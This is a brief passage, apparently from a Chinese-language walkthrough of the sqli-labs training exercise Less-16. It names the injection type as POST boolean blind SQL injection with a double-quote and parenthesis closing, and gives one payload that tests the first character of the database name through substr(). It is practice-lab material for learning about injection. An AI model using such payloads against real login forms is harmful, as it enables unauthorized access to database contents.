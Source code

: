 ![](file/image_GLqBxB7Lm7.png)

### Less-16：POST - Blind-Boolian/Time Based - Double quotes

**注入类型**

布尔盲注

**闭合方式**

id=("\$id")

```sql
admin") 
and substr(database(),1,1)='s' #
```

![](file/image_YngTXf4QF0.png)